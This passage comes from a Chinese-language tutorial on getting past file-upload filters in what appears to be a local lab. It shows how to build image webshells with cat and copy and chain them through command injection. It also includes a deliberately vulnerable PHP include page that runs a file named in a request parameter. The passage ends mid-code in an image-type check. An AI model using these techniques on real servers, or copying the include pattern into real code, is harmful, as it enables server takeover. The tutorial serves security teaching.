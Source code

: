 ```shell
cat huaji.jpg shell.php > shell.php
```

### 15. 判断文件头且限制后缀

使用 `strrpos( $uploaded_name, '.' )` 函数来截取文件名中最后一个 `.` 后面的字符，来识别为上传的文件的后缀名，并只接受后缀名为 `jpg`，`jpeg`，`png` 的文件。同时使用了 `getimagesize( $uploaded_tmp )` 来获取**文件头**中的图片尺寸信息，读取不到尺寸信息则拒绝上传。

此时只能使用图片马：

windows

```powershell
copy huaji.gif /b + shell.php /a shell.gif
```

Linux

```shell
cat huaji.jpg shell.php > shell.jpg
```

图片马需要通过命令注入漏洞`rename shell.jpg shell.php`来把上一步上传的 `shell.jpg` 重命名为 `shell.php`，然后利用文件包含漏洞才能执行，使用include包含。

`include` 方法可以让当前页面去执行指定的另外一个文件中的代码内容。

存在如下文件：upload/include.php，文件内容如下：

```php
<?php
$file = $_GET['page'] ;
include ($file);
?>
```

使用`localhost:8080/upload/include.php?page=shell.php`可以借助蚁剑连接成功。

### 16. php内置函数获取图片类型

比如getimagesize()、exif_imagetype()。

**exif_imagetype()** 读取一个图像的第一个字节并检查其签名。

exif_imagetype环境需要开启php_exit模块。如果函数出现报错，则需要去php.ini修改如下内容：

```bash
extension=php_mbstring.dll
extension=php_exif.dll
```

然后再重启服务器即可。

```php
<?php
header("Content-Type: text/html;charset=utf-8"); //设置编码为UTF-8 不然乱码
$filename = $_GET['filename']; //通过get传值判断文件类型
$image_type = exif_imagetype($filename);
echo "进行判断";
switch ($image_type){
    case IMAGETYPE_GIF:
        echo $filename."文件类型:GIF";
        break;
    case IMAGETYPE_JPEG:
        echo $filename."文件类型:jpg";
        break;
    case IMAGETYPE_PNG:
        echo $filename."文件类型:png";
        break;
    default:
        echo $filename."文件类型:未知";
        break;
```